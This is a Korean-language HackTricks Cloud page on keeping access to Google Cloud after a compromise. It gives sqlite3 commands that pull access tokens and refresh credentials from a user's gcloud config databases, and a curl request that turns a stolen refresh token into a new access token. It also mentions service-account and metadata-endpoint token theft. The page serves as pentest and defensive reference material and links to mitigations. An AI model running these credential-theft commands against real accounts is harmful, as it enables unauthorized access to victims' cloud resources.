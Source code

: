 # GCP - 비 서비스 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로에서 영웅까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 요령을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 기여하세요.**

</details>

이러한 기술은 어떤 방식으로든 GCP 자격 증명 또는 GCP 환경에서 실행 중인 기계를 침투한 후 유용합니다.

## 토큰 탈취

### 인증된 사용자 토큰

사용자의 **현재 토큰**을 가져오려면 다음을 실행할 수 있습니다:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

이 페이지에서 **gcloud를 사용하여이 토큰을 직접 사용하는 방법**을 확인하십시오:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

새 액세스 토큰을 생성하는 세부 정보를 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**리프레시 토큰**, 클라이언트 ID 및 클라이언트 시크릿을 사용하여 새로 고친 액세스 토큰을 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

새로 고침 토큰의 유효성은 **관리자** > **보안** > **Google Cloud 세션 제어**에서 관리할 수 있으며, 기본적으로 16시간으로 설정되어 있지만 만료되지 않도록 설정할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 서비스 계정

인증된 사용자와 마찬가지로 서비스 계정의 **개인 키 파일을 compromise**하면 **원하는 만큼 액세스**할 수 있습니다.\
그러나 서비스 계정의 **OAuth 토큰을 도난당하면** 더 흥미로울 수 있습니다. 기본적으로 이러한 토큰은 1시간 동안 유용하지만, **피해자가 개인 API 키를 삭제하더라도 OAuth 토큰은 만료될 때까지 유효**합니다.

### 메타데이터

명백히 GCP 환경에서 실행 중인 기계 내부에 있다면 **메타데이터 엔드포인트에 연락하여 해당 기계에 연결된 서비스 계정에 액세스**할 수 있습니다 (이 엔드포인트에서 액세스할 수 있는 OAuth 토큰은 일반적으로 범위로 제한됩니다).

### 조치

이러한 기술에 대한 일부 조치는 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)에서 설명되어 있습니다.

## 참고 자료

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com) 획득
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하고, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션을 살펴보세요
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
